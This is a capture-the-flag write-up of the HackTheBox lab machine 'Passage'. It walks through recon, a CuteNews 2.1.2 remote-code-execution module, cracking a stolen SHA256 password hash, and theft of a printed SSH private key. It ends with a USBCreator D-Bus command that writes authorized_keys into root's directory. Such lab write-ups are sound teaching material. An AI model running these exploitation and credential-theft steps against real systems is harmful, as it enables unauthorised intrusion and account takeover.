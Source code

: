 Title:HTB: Passage
Date: 03-09-2021 09:20
category:security
tags:security, boot2root, HTB, linux
meta:security, boot2root, HTB, linux

<img class="align-left" src="/media/2021.03/passage_card.png" alt="Passage Card" width="262">

This is a writeup about a retired HacktheBox machine:
[Passage](https://www.hackthebox.com/home/machines/profile/275) publish on
September 2, 2020 by
[ChefByzen](https://www.hackthebox.com/home/users/profile/140851).
This box is rated as a medium box. It implies two public exploit and a shared SSH
private key.

<!-- PELICAN_END_SUMMARY -->

# Foothold

## Recon

Let us start as always by a `nmap` scan. Only port 80 (HTTP) and 22 (SSH) are
open.

    :::text
    # Nmap 7.80 scan initiated Sun Sep 13 03:46:59 2020 as: nmap -p- -sSV -oN nmap 10.10.10.206
    Nmap scan report for 10.10.10.206
    Host is up (0.086s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## Web

We browse to the website. This is a simple blog with some news. One of them is
about a [fail2ban](https://www.fail2ban.org/wiki/index.php/Main_Page)
implementation. This will dissuade us to brute force login interfaces (which
rarely happen on HTB) and run `dirb` against the site.

![Passage News index](/media/2021.03/passage_01.png){: .image-process-article-image}

When looking at the bottom of the page we see that the blog is "Powered by
CuteNews". A few Google search lead us to the admin panel located at `/CuteNews`

![Cute News login page](/media/2021.03/passage_02.png){: .image-process-article-image}

We cannot login as we don't have any creds nor create an account.
We also check the available exploit for this CuteNews version (2.1.2).

    :::text
    kali@kali:~$ searchsploit CuteNews 2.1.2
    ----------------------------------------------------------- ---------------------------------
    Exploit Title                                             |  Path
    ----------------------------------------------------------- ---------------------------------
    CuteNews 2.1.2 - 'avatar' Remote Code Execution (Metasploi | php/remote/46698.rb
    CuteNews 2.1.2 - Arbitrary File Deletion                   | php/webapps/48447.txt
    CuteNews 2.1.2 - Authenticated Arbitrary File Upload       | php/webapps/48458.txt
    ----------------------------------------------------------- ---------------------------------
    Shellcodes: No Results

We import the 'Avatar' exploit into metasploit using [rapid7 guide](https://github.com/rapid7/metasploit-framework/wiki/Running-Private-Modules).
We register an account an launch the exploit and got a reverse shell as `www-data`.

We look at the available files. We found the `cdata` folder just a level above
and then the `users` directory. We display some of them. They contain base64
encoded user data. Some of them contain a SHA256 hashed password.

    :::text
    cat b0.php
    <?php die('Direct call - access denied'); ?>
    YToxOntzOjQ6Im5hbWUiO2E6MTp7czoxMDoicGF1bC1jb2xlcyI7YTo5OntzOjI6ImlkIjtzOjEwOiIxNTkyNDgzMjM2IjtzOjQ6Im5hbWUiO3M6MTA6InBhdWwtY29sZXMiO3M6MzoiYWNsIjtzOjE6IjIiO3M6NToiZW1haWwiO3M6MTY6InBhdWxAcGFzc2FnZS5odGIiO3M6NDoibmljayI7czoxMDoiUGF1bCBDb2xlcyI7czo0OiJwYXNzIjtzOjY0OiJlMjZmM2U4NmQxZjgxMDgxMjA3MjNlYmU2OTBlNWQzZDYxNjI4ZjQxMzAwNzZlYzZjYjQzZjE2ZjQ5NzI3M2NkIjtzOjM6Imx0cyI7czoxMDoiMTYwMDA4MDM1OSI7czozOiJiYW4iO3M6MToiMCI7czozOiJjbnQiO3M6MToiMiI7fX19

    a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}

We grab all the hashes and crack them using `john` and the rockyou wordlist.
`Paul`'s password is `atlanta1`.

    :::text
    [maggick@fomalhaut ~]$ john hash -w=~/tools/password_lists/rockyou.txt --fork=8 --rules --format=Raw-SHA256
    Using default input encoding: UTF-8
    Loaded 4 password hashes with no different salts (Raw-SHA256 [SHA256 128/128 AVX 4x])
    Warning: OpenMP was disabled due to --fork; a non-OpenMP build may be faster
    Node numbers 1-8 of 8 (fork)
    Each node loaded 1/8 of wordfile to memory (about 16 MB/node)
    atlanta1         (paul)
    Press 'q' or Ctrl-C to abort, almost any other key for status
    atlanta1         (paul)
    atlanta1         (paul)
    atlanta1         (paul)
    Waiting for 7 children to terminate
    Session completed

We open a shell, and try to switch user but we cannot use `su` as we don't have
a proper terminal. Using
[Payload all the things cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell)
we get an interactive shell and get logged in as `paul` and grab the user flag.

    :::text
    meterpreter > shell
    Process 3053 created.
    Channel 14 created.
      su 
    su: must be run from a terminal
    /usr/bin/script -qc /bin/bash /dev/null                  
    www-data@passage:/var/www/html/CuteNews/cdata/users$ su paul
    su paul
    Password: atlanta1

    paul@passage:/var/www/html/CuteNews/cdata/users$ cd
    cd
    paul@passage:~$ cat user.txt
    cat user.txt 
    c9e5ea0c3e42965404e9cf34eaee71bd

# Root

We grab the SSH key in paul's `.ssh` folder. The associated public key show us
that this is `nadav` public (and private) key.

    :::text
    cat .ssh/id_rsa.pub
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzXiscFGV3l9T2gvXOkh9w+BpPnhFv5AOPagArgzWDk9uUq7/4v4kuzso/lAvQIg2gYaEHlDdpqd9gCYA7tg76N5RLbroGqA6Po91Q69PQadLsziJnYumbhClgPLGuBj06YKDktI3bo/H3jxYTXY3kfIUKo3WFnoVZiTmvKLDkAlO/+S2tYQa7wMleSR01pP4VExxPW4xDfbLnnp9zOUVBpdCMHl8lRdgogOQuEadRNRwCdIkmMEY5efV3YsYcwBwc6h/ZB4u8xPyH3yFlBNR7JADkn7ZFnrdvTh3OY+kLEr6FuiSyOEWhcPybkM5hxdL9ge9bWreSfNC1122qq49d nadav@passage
    paul@passage:~$ cat .ssh/id_rsa
    cat .ssh/id_rsa
    -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEAs14rHBRld5fU9oL1zpIfcPgaT54Rb+QDj2oAK4M1g5PblKu/
    +L+JLs7KP5QL0CINoGGhB5Q3aanfYAmAO7YO+jeUS266BqgOj6PdUOvT0GnS7M4i
    Z2Lpm4QpYDyxrgY9OmCg5LSN26Px948WE12N5HyFCqN1hZ6FWYk5ryiw5AJTv/kt
    rWEGu8DJXkkdNaT+FRMcT1uMQ32y556fczlFQaXQjB5fJUXYKIDkLhGnUTUcAnSJ
    JjBGOXn1d2LGHMAcHOof2QeLvMT8h98hZQTUeyQA5J+2RZ63b04dzmPpCxK+hbok
    sjhFoXD8m5DOYcXS/YHvW1q3knzQtddtqquPXQIDAQABAoIBAGwqMHMJdbrt67YQ
    eWztv1ofs7YpizhfVypH8PxMbpv/MR5xiB3YW0DH4Tz/6TPFJVR/K11nqxbkItlG
    QXdArb2EgMAQcMwM0mManR7sZ9o5xsGY+TRBeMCYrV7kmv1ns8qddMkWfKlkL0lr
    lxNsimGsGYq10ewXETFSSF/xeOK15hp5rzwZwrmI9No4FFrX6P0r7rdOaxswSFAh
    zWd1GhYk+Z3qYUhCE0AxHxpM0DlNVFrIwc0DnM5jogO6JDxHkzXaDUj/A0jnjMMz
    R0AyP/AEw7HmvcrSoFRx6k/NtzaePzIa2CuGDkz/G6OEhNVd2S8/enlxf51MIO/k
    7u1gB70CgYEA1zLGA35J1HW7IcgOK7m2HGMdueM4BX8z8GrPIk6MLZ6w9X6yoBio
    GS3B3ngOKyHVGFeQrpwT1a/cxdEi8yetXj9FJd7yg2kIeuDPp+gmHZhVHGcwE6C4
    IuVrqUgz4FzyH1ZFg37embvutkIBv3FVyF7RRqFX/6y6X1Vbtk7kXsMCgYEA1WBE
    LuhRFMDaEIdfA16CotRuwwpQS/WeZ8Q5loOj9+hm7wYCtGpbdS9urDHaMZUHysSR
    AHRFxITr4Sbi51BHUsnwHzJZ0o6tRFMXacN93g3Y2bT9yZ2zj9kwGM25ySizEWH0
    VvPKeRYMlGnXqBvJoRE43wdQaPGYgW2bj6Ylt18CgYBRzSsYCNlnuZj4rmM0m9Nt
    1v9lucmBzWig6vjxwYnnjXsW1qJv2O+NIqefOWOpYaLvLdoBhbLEd6UkTOtMIrj0
    KnjOfIETEsn2a56D5OsYNN+lfFP6Ig3ctfjG0Htnve0LnG+wHHnhVl7XSSAA9cP1
    9pT2lD4vIil2M6w5EKQeoQKBgQCMMs16GLE1tqVRWPEH8LBbNsN0KbGqxz8GpTrF
    d8dj23LOuJ9MVdmz/K92OudHzsko5ND1gHBa+I9YB8ns/KVwczjv9pBoNdEI5KOs
    nYN1RJnoKfDa6WCTMrxUf9ADqVdHI5p9C4BM4Tzwwz6suV1ZFEzO1ipyWdO/rvoY
    f62mdwKBgQCCvj96lWy41Uofc8y65CJi126M+9OElbhskRiWlB3OIDb51mbSYgyM
    Uxu7T8HY2CcWiKGe+TEX6mw9VFxaOyiBm8ReSC7Sk21GASy8KgqtfZy7pZGvazDs
    OR3ygpKs09yu7svQi8j2qwc7FL6DER74yws+f538hI7SHBv9fYPVyw==
    -----END RSA PRIVATE KEY-----

So we just us the SSH key to connect as `nadav`.

    :::text
    kali@kali:~$ ssh -l nadav 10.10.10.206 -i .ssh/id_rsa-2
    load pubkey ".ssh/id_rsa-2": invalid format
    Last login: Mon Sep 14 04:54:44 2020 from 10.10.14.5
    nadav@passage:~$ id
    uid=1000(nadav) gid=1000(nadav) groups=1000(nadav),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)

We look at the files in the home folder. In .viminfo we found that one of the
latest edited file is about USBCreator.

    :::text
    # Jumplist (newest first):
    -'  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
    -'  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf

A quick Google search lead us a [blog post](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)
with an USBCreator privilege escalation exploit allowing to write a file on the system as
root. We reproduce the steps in order to copy `nadav`'s `authorized_keys` file in
the `root`'s `.ssh` directory. We can then connect as `root` with our SSH key
and get the flag.


    :::text
    nadav@passage:~$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/.ssh/authorized_keys /root/.ssh/authorized_keys true
    ()
    nadav@passage:~$ logout
    Connection to 10.10.10.206 closed.
    kali@kali:~$ ssh -l nadav 10.10.10.206 -i .ssh/id_rsa-2
    load pubkey ".ssh/id_rsa-2": invalid format
    Last login: Mon Sep 14 05:13:56 2020 from 127.0.0.1
    nadav@passage:~$ logout
    Connection to 10.10.10.206 closed.
    kali@kali:~$ ssh -l root 10.10.10.206 -i .ssh/id_rsa-2
    load pubkey ".ssh/id_rsa-2": invalid format
    Last login: Mon Aug 31 15:14:22 2020 from 127.0.0.1
    root@passage:~# id
    uid=0(root) gid=0(root) groups=0(root)
    root@passage:~# cat root.txt o
    db9c53fcf5bde2fa5a591bcb948a1d3a

# Wrapping up

This box was quit easy. Not to much rabbit hole. At the end this is just the
chaining of two public exploits. I will recommend it for beginners.

